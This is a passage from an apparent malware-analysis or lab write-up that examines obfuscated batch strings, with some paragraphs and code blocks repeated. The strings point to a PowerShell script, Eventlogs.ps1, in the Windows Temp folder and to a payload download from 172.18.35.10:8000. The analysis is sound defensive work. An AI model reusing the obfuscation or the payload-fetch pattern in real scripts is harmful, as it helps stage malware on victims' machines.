 ```

%%LzKV:~38,1%%LzKV:~38,1%%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\Eventlogs.ps1
%LzKV:~4,1%%LzKV:~56,1%%LzKV:~27,1%%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\Eventlogs.ps1


```

These lines indicate the presence of a **PowerShell script named `Eventlogs.ps1`** in the **Windows Temp directory**. This script is likely involved in executing the next stage of the attack and will be analyzed in subsequent steps.
_The following image shows the extracted strings from the **`strings.txt`** file, revealing key findings:_

```

%%LzKV:~38,1%%LzKV:~38,1%%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\Eventlogs.ps1
%LzKV:~4,1%%LzKV:~56,1%%LzKV:~27,1%%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\Eventlogs.ps1


```

These lines indicate the presence of a **PowerShell script named `Eventlogs.ps1`** in the **Windows Temp directory**. This script is likely involved in executing the next stage of the attack and will be analyzed in subsequent steps.
![](images/stringoutput.png)

Additionally, I discovered another crucial line:

```

://172.18.35.10:8000/amanwhogetsnorest.jpg%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\amanwhogetsnorest.jpg


```

From this, I identified an **IP address (172.18.35.10) communicating over port 8000**, attempting to download a file named `amanwhogetsnorest.jpg`. However, this file was not present on the system at the time of analysis.
_The following image shows the extracted strings from the **`strings.txt`** file, revealing key findings:_

```

://172.18.35.10:8000/amanwhogetsnorest.jpg%LzKV:~50,1%%LzKV:~23,1%:\Windows\Temp\amanwhogetsnorest.jpg


```
